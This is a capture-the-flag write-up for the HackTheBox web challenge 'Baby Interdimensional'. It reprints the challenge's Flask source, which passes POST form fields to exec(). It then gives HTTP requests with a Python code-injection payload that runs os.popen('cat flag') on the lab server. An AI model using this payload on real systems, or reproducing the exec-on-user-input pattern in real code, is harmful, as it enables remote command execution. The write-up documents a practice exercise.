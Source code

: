 # Solution for Baby Interdimensional - HackTheBox - Challenges - Retired - Web

First, we see there is nothing on the page but in the source there is an interesting comment
```text
<!-- /debug -->
```

Upon visiting, we see the source code of this page and here we have to look through stuff to see what's what

```text
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

So from what we can see it needs 2 post parameters and then we can have some sort of command injection that is allowing us to run the exec command.
So recipe seems to be a global variable set by measurements. So we try to emulate a POST request and try to control the variable 
```text
POST / HTTP/1.1
Host: 104.248.168.109:32312
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

ingredient=cat&measurements=691
```

Here we have added the content-type to make the request work.

And the page is now printing 691 on the webpage!
Let's try and get the exec command to work

From this website 
https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html

We learn we can do remote command injection in the exec command by doing this 

```
eval("__import__('os').popen('').read()")
```

Now we can try doing ls,
First, this is our POC for command execution is 

![LS POC RCE](https://github.com/HanozDar/challenges/blob/master/baby_interdimensional/images/ls-command-rce.png)

Now let's try to figure out how to cat flag

We are successful! Our final payload is 
```text
POST / HTTP/1.1
Host: 104.248.168.109:32312
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 79

ingredient=cat&measurements=eval("__import__('os').popen('cat flag').read()")
```






